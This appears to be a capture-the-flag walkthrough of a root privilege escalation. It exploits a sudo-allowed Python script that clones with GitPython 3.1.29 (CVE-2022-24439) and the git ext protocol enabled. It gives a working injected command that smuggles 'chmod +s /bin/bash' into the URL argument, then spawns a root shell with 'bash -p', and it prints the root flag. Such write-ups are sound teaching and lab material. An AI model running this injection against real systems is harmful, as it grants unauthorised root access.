






Once here, we will try to read the only command that we are allowed to execute as **root**.
```bash
$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
```


If we pay attemtion to the line “ from git import Repo” and search in google what is that, we found a vulnerability CVE-2022-24439 in our case if we will check the gitpython version we see that our version is vulnerable. https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
```bash
$ pip freeze | grep -i gitpython

GitPython==3.1.29
```



The critical line is this: `r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])`

The developer thought that enabling the **ext** protocol was a good idea. However, in Git, the **ext** protocol allows executing system commands to interact with an "external" repository. By setting `allow=always`, the script will accept any command sent to it through the URL.


## How to Exploit It (Privilege Escalation)

Since you can control `sys.argv[1]` (the first argument passed to the script), you can supply a malicious “URL” that, instead of cloning a repository, executes a command as **root**.

A classic trick is to set the **SUID** bit on `/bin/bash` so that anyone can spawn a root shell.

So execute the malicious command:
```bash
$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod${IFS}+s${IFS}/bin/bash'
```
- **`ext::`**: Tells Git to use the external transport helper.
- **`sh -c ...`**: The command that Git will execute.
- **`chmod +s /bin/bash`**: Sets the SUID bit on the shell, allowing it to retain root privileges when executed with `-p`.
- **`${IFS}`**: When `sh` executes the command, it expands `${IFS}` into a real space, resulting in a valid `chmod +s /bin/bash` command.



Check whether the **SUID** bit has been set on the Bash binary:
```bash
$ ls -l /bin/bash
```



And then
```bash
$ /bin/bash -p
```


Now we can get the root flag.


```bash
Root Flag → e91dbbab9c8462ecca4fa39dd94a5d0a
```

[Back](README.md)
